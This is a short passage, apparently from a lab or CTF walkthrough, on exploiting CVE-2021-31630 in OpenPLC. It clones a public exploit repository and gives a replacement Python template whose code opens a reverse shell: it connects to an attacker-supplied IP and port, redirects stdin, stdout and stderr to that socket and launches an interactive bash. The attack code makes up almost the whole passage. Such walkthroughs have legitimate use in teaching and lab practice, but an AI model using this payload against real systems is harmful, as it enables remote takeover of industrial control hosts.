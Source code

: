 ```bash
git clone git clone https://github.com/thewhiteh4t/cve-2021-31630/
cd cve-2021-31630
```

now we need to change the rev shell to python.<br/>
change template var at `cve-2021-31630/cve_2021_31630.py` line **66** to:<br/>

```python
template = """

import psm
import time
import socket
import subprocess
import os

# Global variables
counter = 0
var_state = False
shell_ran = False  # Prevents running reverse shell multiple times


def hardware_init():
    psm.start()


def update_inputs():
    global counter
    global var_state
    psm.set_var("IX0.0", var_state)
    counter += 1
    if counter == 10:
        counter = 0
        var_state = not var_state


def update_outputs():
    global shell_ran
    a = psm.get_var("QX0.0")
    if a == True:
        print("QX0.0 is true")

    # Run reverse shell only once
    if not shell_ran:
        shell_ran = True
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("<IP>",<PORT>))  # Replace with your LHOST and LPORT
            os.dup2(s.fileno(), 0)  # stdin
            os.dup2(s.fileno(), 1)  # stdout
            os.dup2(s.fileno(), 2)  # stderr
            subprocess.call(["/bin/bash", "-i"])
        except Exception as e:
            print(f"Shell error: {e}")                                                                                                      


if __name__ == "__main__":
    hardware_init()
    while not psm.should_quit():
        update_inputs()
        update_outputs()
        time.sleep(0.1)
    psm.stop()
```